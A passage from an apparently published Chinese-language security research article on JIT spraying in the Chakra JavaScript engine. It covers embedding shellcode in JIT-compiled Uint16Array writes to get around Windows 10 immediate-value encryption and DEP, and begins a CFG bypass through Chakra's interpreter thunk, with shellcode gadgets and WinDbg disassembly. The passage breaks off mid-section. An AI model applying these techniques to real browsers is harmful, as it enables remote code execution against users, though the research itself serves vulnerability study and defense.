     0xA564   // movs dword ptr [edi], dword ptr fs:[esi] ; *esp = *(fs:0xC0)
    0x4FB2   // mov  dl, 0x50        ; NtProtectVirtualMemory, Win8.1:0x4F, Win10:0x50
    0x5290   // push edx
    0xC358   // pop  eax--ret        ; ret to syscall
    

# 0x03 绕过Windows 10的 Chakra引擎的立即数加密

* * *

Windows 10的Chakra引擎并没有前述问题。但是，由于Windows10的Chakra引擎高度优化，在处理整数类型数组写入操作时，会用最高效的方式生成JIT代码。例如，对于下面的JavaScript语句：

    
    
    var ar = new Uint16Array(0x10000);
    ar[0x9090/2] = 0x9090;
    ar[0x9090/2] = 0x9090;
    ar[0x9090/2] = 0x9090;
    ar[0x9090/2] = 0x9090;
    ...
    

生成的机器指令是：

    
    
    ...
    0b8110e0 66c786909000009090 mov   word ptr [esi+9090h],9090h
    0b8110e9 66c786909000009090 mov   word ptr [esi+9090h],9090h
    0b8110f2 66c786909000009090 mov   word ptr [esi+9090h],9090h
    0b8110fb 66c786909000009090 mov   word ptr [esi+9090h],9090h
    ...
    

虽然Chakra引擎的JIT Spray防御措施只允许用户控制最多2字节立即数，但在上面这种情况下，数组索引和要写入的数字会出现在同一条指令中。所以实际上我们有了4字节而不是2字节的可控数据。

在这种情况下，同样可在其中嵌入前面提到的每条指令长度不大于2字节的Shellcode。只是由于多了中间的两字节0x00（会被作为指令“add byteptr [eax],al”执行），所以需要在最开始两字节的指令中将EAX设为可写的地址。

# 0x04 利用Chakra引擎绕过CFG

* * *

利用前面介绍的两种方法，可以实施JIT Spray绕过DEP。但嵌入在JIT代码中的Shellcode执行入口地址显然无法通过CFG检查。但实际上Chakra引擎的实现中就存在可用来绕过CFG的地方。

无论所执行的JavaScript是否需要启动JIT，Chakra引擎都一定会在内存中生成如下入口函数：

    
    
    0:017> uf 4ff0000
    04ff0000 55          push  ebp
    04ff0001 8bec        mov   ebp,esp
    04ff0003 8b4508      mov   eax,dword ptr [ebp+8]
    04ff0006 8b4014      mov   eax,dword ptr [eax+14h]
    04ff0009 8b4840      mov   ecx,dword ptr [eax+40h]
    04ff000c 8d4508      lea   eax,[ebp+8]
    04ff000f 50          push  eax
    04ff0010 b840cb5a71  mov   eax, 715acb40h ; jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>
    04ff0015 ffe1        jmp   ecx
    